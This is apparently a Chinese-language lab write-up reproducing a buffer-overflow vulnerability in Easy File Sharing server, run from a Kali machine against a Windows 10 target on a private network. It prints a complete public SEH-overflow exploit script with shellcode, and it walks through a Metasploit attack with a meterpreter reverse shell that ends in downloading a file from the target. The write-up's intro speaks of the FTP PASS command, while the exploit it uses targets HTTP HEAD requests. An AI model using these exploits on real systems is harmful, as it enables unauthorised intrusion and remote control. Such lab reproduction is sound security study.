 ```yaml
---
title: easy file sharing server漏洞复现
date: 2021-11-03 20:25:24
tags: 漏洞复现
cover: https://raw.githubusercontent.com/todis21/image/main/img/wallhaven-o3jpyp_1920x1080.png
---
```


# easy file sharing server漏洞复现

## 一、漏洞详情

Easy File Sharing FTP Server是一款FTP服务程序。 Easy File Sharing FTP Server处理PASS命令存在问题，远程攻击者可以利用漏洞进行缓冲区溢出攻击，可能以进程权限执行任意指令。 提交超长字符串作为PASS命令参数，可导致触发缓冲区溢出，精心构建提交数据可能以进程权限执行任意指令。



##  二、工具

靶机： 192.168.118.132、win10（可用其他win系统，把windows安全中心关闭）、安装easy file sharing server

攻击机：192.168.118.128、kali

## 三、开始复现

靶机打开easy file sharing server，把端口改为8000，然后点击restart

![](https://raw.githubusercontent.com/todis21/image/main/img/image-20211103203726819.png)

在kali用nmap扫描

```
nmap -sV 192.168.118.0/24  
```

![image-20211103204514315](https://raw.githubusercontent.com/todis21/image/main/img/image-20211103204514315.png)

可以发现主机192.168.118.132（靶机）已经在8000端口打开了Easy File Sharing 服务



在kali使用searchsploit工具查找相应的渗透模块

[传送门](https://blog.csdn.net/qq_38243607/article/details/107140817)

```
searchsploit easy file sharing
```

![image-20211103211503587](https://raw.githubusercontent.com/todis21/image/main/img/image-20211103211503587.png)

图片中path的，就是示例脚本的路径，完整路径是：/usr/share/exploitdb/exploits/+path中的脚本路径

这里使用39009.py

```
python /usr/share/exploitdb/exploits/windows/remote/39009.py 192.168.118.132 8000
```

复现成功

![](https://raw.githubusercontent.com/todis21/image/main/img/image-20211103213100870.png)

脚本代码

```python
# Exploit Title: Easy File Sharing Web Server 7.2 - HEAD HTTP request SEH Buffer Overflow
# Date: 12/2/2015
# Exploit Author: ArminCyber
# Contact: Armin.Exploit@gmail.com
# Version: 7.2
# Tested on: XP SP3 EN
# category: Remote Exploit
# Usage: ./exploit.py ip port

import socket
import sys

host = str(sys.argv[1])
port = int(sys.argv[2])

a = socket.socket()

print "Connecting to: " + host + ":" + str(port)
a.connect((host,port))

entire=4500

# Junk
buff = "A"*4061

# Next SEH
buff+= "\xeb\x0A\x90\x90"

# pop pop ret
buff+= "\x98\x97\x01\x10"

buff+= "\x90"*19

# calc.exe
# Bad Characters: \x20 \x2f \x5c
shellcode = (
"\xd9\xcb\xbe\xb9\x23\x67\x31\xd9\x74\x24\xf4\x5a\x29\xc9"
"\xb1\x13\x31\x72\x19\x83\xc2\x04\x03\x72\x15\x5b\xd6\x56"
"\xe3\xc9\x71\xfa\x62\x81\xe2\x75\x82\x0b\xb3\xe1\xc0\xd9"
"\x0b\x61\xa0\x11\xe7\x03\x41\x84\x7c\xdb\xd2\xa8\x9a\x97"
"\xba\x68\x10\xfb\x5b\xe8\xad\x70\x7b\x28\xb3\x86\x08\x64"
"\xac\x52\x0e\x8d\xdd\x2d\x3c\x3c\xa0\xfc\xbc\x82\x23\xa8"
"\xd7\x94\x6e\x23\xd9\xe3\x05\xd4\x05\xf2\x1b\xe9\x09\x5a"
"\x1c\x39\xbd"
)
buff+= shellcode

buff+= "\x90"*7

buff+= "A"*(4500-4061-4-4-20-len(shellcode)-20)

# HEAD
a.send("HEAD " + buff + " HTTP/1.0\r\n\r\n")

a.close()

print "Done..."
```







## 另一种“姿势”

利用Metasploit生成主控端和被动端

在kali输入

```
msfconsole
```

开启msf控制台



![image-20211104122617692](https://raw.githubusercontent.com/todis21/image/main/img/image-20211104122617692.png)

寻找EasyFileSharing漏洞利用模块

```
search EasyFileSharing
```



![image-20211104122911066](https://raw.githubusercontent.com/todis21/image/main/img/image-20211104122911066.png)

然后

```
use exploit/windows/http/easyfilesharing_seh
```

提示No payload configured, defaulting to windows/meterpreter/reverse_tcp

```
show options//查看配置
```

![image-20211104123311810](https://raw.githubusercontent.com/todis21/image/main/img/image-20211104123311810.png)

```
set rhost 192.168.118.132
```

输入 

```
exploit
```

模块执行成功，然后你就可以执行任意你想要执行的命令

![image-20211104131046111](https://raw.githubusercontent.com/todis21/image/main/img/image-20211104131046111.png)

在靶机写个字符串保存在flag.txt里，放在C:\EFS Software\Easy File Sharing Web Server下，用于后续辨别

![image-20211104131150479](https://raw.githubusercontent.com/todis21/image/main/img/image-20211104131150479.png)



执行命令ls，可以找到刚刚在靶机写的flag.txt

![image-20211104131253395](https://raw.githubusercontent.com/todis21/image/main/img/image-20211104131253395.png)

把它下载下来

```
download flag.txt
```



![image-20211104131438019](https://raw.githubusercontent.com/todis21/image/main/img/image-20211104131438019.png)



![image-20211104131554985](https://raw.githubusercontent.com/todis21/image/main/img/image-20211104131554985.png)

